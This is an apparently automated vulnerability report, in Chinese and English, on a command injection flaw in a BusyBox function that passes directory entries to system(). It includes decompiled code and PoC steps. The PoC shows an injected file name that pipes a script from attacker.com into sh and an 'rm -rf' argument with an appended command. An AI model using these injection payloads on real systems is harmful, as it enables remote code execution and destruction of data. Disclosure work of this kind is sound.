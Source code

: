 
## 原始信息

- **文件/目录路径：** `bin/busybox`
- **位置：** `busybox:0x12eb4 fcn.00012eb4`
- **描述：** The function at address 0x12eb4 (fcn.00012eb4) uses the system() function to execute commands constructed from directory entries and parameters. Specifically, it reads directory entries via readdir64, constructs a path using fcn.0004244c, and passes it to system() without adequate validation. An attacker with control over the directory contents or parameters could inject arbitrary commands. The function also sets an environment variable using setenv, which might influence command execution. This could be triggered through a BusyBox applet that handles user input, such as one processing scripts or configurations.
- **代码片段：**
  ```
  uint fcn.00012eb4(uint *param_1) {
      // ... (setenv and directory processing)
      iVar2 = sym.imp.readdir64(iVar1);
      if (iVar2 != 0) {
          uVar3 = fcn.0004244c(*0x12f9c, param_1[1], iVar2 + 0x13);
          iVar4 = sym.imp.system(uVar3);  // First system call
          // ...
      }
      uVar3 = fcn.0004244c(*0x12fa0, param_1[1]);
      sym.imp.system();  // Second system call
      // ...
  }
  ```
- **备注：** The function fcn.00012eb4 is likely part of a BusyBox applet (e.g., related to script execution or directory processing). Further analysis is needed to identify the exact applet and its usage context. The attack requires the attacker to influence the directory contents or parameters, which might be achievable through file uploads or manipulated environment variables. Verification of the applet's exposure to user input is recommended for full exploit chain validation.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了函数fcn.00012eb4中的命令注入漏洞。反汇编代码显示：1) 函数使用system()执行从目录条目（通过readdir64读取）和参数构造的命令，格式字符串为"%s/%s"和"rm -rf %s"；2) 没有输入验证或消毒，允许shell元字符（如分号、反引号）注入命令。攻击者模型：攻击者需具有本地访问权限或能通过命令行参数或文件上传控制输入（如目录路径或文件名）。例如，如果applet被调用时参数为"/tmp; malicious_command"，则第二个system()调用会执行"rm -rf /tmp; malicious_command"，导致任意命令执行。PoC步骤：1) 攻击者创建一个包含shell元字符的目录名或文件名（如"file; curl http://attacker.com/shell.sh | sh"）；2) 通过BusyBox applet调用该函数并传递恶意参数；3) system()执行注入的命令，实现远程代码执行。漏洞风险高，因为可能完全控制系统。

## 验证指标

- **验证时长：** 277.33 秒
- **Token 使用量：** 365145

---

## 原始信息

